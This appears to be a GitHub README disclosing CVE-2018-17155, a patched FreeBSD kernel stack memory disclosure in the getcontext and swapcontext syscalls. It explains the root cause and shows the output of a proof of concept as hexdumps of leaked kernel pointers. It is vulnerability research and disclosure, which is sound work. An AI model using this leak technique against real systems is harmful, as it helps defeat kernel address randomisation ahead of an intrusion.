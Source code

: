 # CVE-2018-17155

This is a classic stack-based kernel memory disclosure of 2 1/2 kernel pointers. This issue was assingned [CVE-2018-17155 / FreeBSD-EN-18:12.mem](https://www.freebsd.org/security/advisories/FreeBSD-EN-18:12.mem.asc). It was anounced and patched on 2018-09-27.

## Description

One leak is in the syscall getcontext (421) and one probably in syscall swapcontext (423) since there is the same pattern. Both functions are implemented in sys/kern/kern_context.c. The root cause is that a ucontext_t structure is allocated on the kernel stack. This is a rather complicated structure and it seems that only parts of it are zero'd out. However, this should be done in the function sys_getcontext. As a result this leaks around 20 bytes of kernel memory to user space (in the case of sys_getcontext, should be the same in the case of sys_swapcontext, though I did not test this). If there were kernel ASLR it would be broken since interesting kernel pointers are leaked. Furthermore, we can not be 100% sure whats left on the kernel stack.

I've attached a PoC to test this. First lets execute it on FreeBSD 11.2 amd64 (fully patched):
> ➜  ~ kldstat    
> Id Refs Address            Size     Name
>  1    1 0xffffffff80200000 20aeee8  kernel
> ➜  ~ ./getcontext
> Sizeof ucontext_t is 880 bytes.
> ➜  ~ hehexdump ucp_dump.bin
> 0000000 0000 0000 0000 0000 0000 0000 0000 0000
> 0000010 0000 0000 0000 0000 01a5 0000 0000 0000
> 0000020 0000 00e2 0008 0000 0000 0000 0000 0000
> 0000030 0000 0000 0000 0000 0370 0000 0000 0000
> 0000040 0020 0000 0000 0000 0000 0000 0000 0000
> 0000050 db40 ffff 7fff 0000 daf0 ffff 7fff 0000
> 0000060 0000 0000 0000 0000 0000 00e2 0008 0000
> 0000070 db38 ffff 7fff 0000 0000 0000 0000 0000
> 0000080 0001 0000 0000 0000 db50 ffff 7fff 0000
> 0000090 8c88 0340 0013 001b 8cc0 0340 f800 ffff
> 00000a0 0001 0000 003b 003b 9000 0a34 f800 ffff
> 00000b0 d6da 008b 0008 0000 0043 0000 0000 0000
> 00000c0 0206 0000 0000 0000 daa8 ffff 7fff 0000
> 00000d0 003b 0000 0000 0000 0320 0000 0000 0000
> 00000e0 0002 0001 0000 0000 0001 0002 0000 0000
> 00000f0 037f 0000 0000 0000 0000 0000 0000 0000
> 0000100 0000 0000 0000 0000 1f80 0000 ffff 0002
> 0000110 0000 0000 0000 0000 0000 0000 0000 0000
> *
> 00001a0 0020 0000 0000 0000 0000 0000 0000 0000
> 00001b0 0000 0000 0000 0000 0020 0000 0000 0000
> 00001c0 4261 0000 0000 0000 6261 0000 0000 0000
> 00001d0 0004 0000 0000 0000 0004 0000 0000 0000
> 00001e0 0000 0000 0000 0000 0000 0000 0000 0000
> *
> 0000200 0261 0000 0000 0000 2261 0000 0000 0000
> 0000210 4000 0000 0000 0000 4000 0000 0000 0000
> 0000220 0000 0000 0000 0000 0000 0000 0000 0000
> *
> 00002f0 7128 0062 0008 0000 0000 0000 0000 0000
> 0000300 0000 0000 0000 0000 0000 0000 0000 0000
> *
> 0000330 4242 4242 4242 4242 4242 4242 4242 4242
> *
> 0000370

The bytes are leaked around 0x90 and 0xa0. To really see the leakage, use the patch kern_context_test.patch. This initializes the ucontext_t structure with 0x45 bytes.
> ➜  ~ ./getcontext
> Sizeof ucontext_t is 880 bytes.
> ➜  ~ hexdump ucp_dump.bin
> 0000000 0000 0000 0000 0000 0000 0000 0000 0000
> 0000010 0000 0000 0000 0000 01a5 0000 0000 0000
> 0000020 0000 00e2 0008 0000 0000 0000 0000 0000
> 0000030 0000 0000 0000 0000 0370 0000 0000 0000
> 0000040 0020 0000 0000 0000 0000 0000 0000 0000
> 0000050 db40 ffff 7fff 0000 daf0 ffff 7fff 0000
> 0000060 0000 0000 0000 0000 0000 00e2 0008 0000
> 0000070 db38 ffff 7fff 0000 0000 0000 0000 0000
> 0000080 0001 0000 0000 0000 db50 ffff 7fff 0000
> 0000090 4545 4545 0013 001b 4545 4545 4545 4545
> 00000a0 0001 0000 003b 003b 4545 4545 4545 4545
> 00000b0 d6da 008b 0008 0000 0043 0000 0000 0000
> 00000c0 0206 0000 0000 0000 daa8 ffff 7fff 0000
> 00000d0 003b 0000 0000 0000 0320 0000 0000 0000
> 00000e0 0002 0001 0000 0000 0001 0002 0000 0000
> 00000f0 037f 0000 0000 0000 0000 0000 0000 0000
> 0000100 0000 0000 0000 0000 1f80 0000 ffff 0002
> 0000110 0000 0000 0000 0000 0000 0000 0000 0000
> *
> 00001a0 0020 0000 0000 0000 0000 0000 0000 0000
> 00001b0 0000 0000 0000 0000 0020 0000 0000 0000
> 00001c0 4261 0000 0000 0000 6261 0000 0000 0000
> 00001d0 0004 0000 0000 0000 0004 0000 0000 0000
> 00001e0 0000 0000 0000 0000 0000 0000 0000 0000
> *
> 0000200 0261 0000 0000 0000 2261 0000 0000 0000
> 0000210 4000 0000 0000 0000 4000 0000 0000 0000
> 0000220 0000 0000 0000 0000 0000 0000 0000 0000
> *
> 00002f0 7128 0062 0008 0000 0000 0000 0000 0000
> 0000300 0000 0000 0000 0000 0000 0000 0000 0000
> *
> 0000330 4242 4242 4242 4242 4242 4242 4242 4242
> *
> 0000370

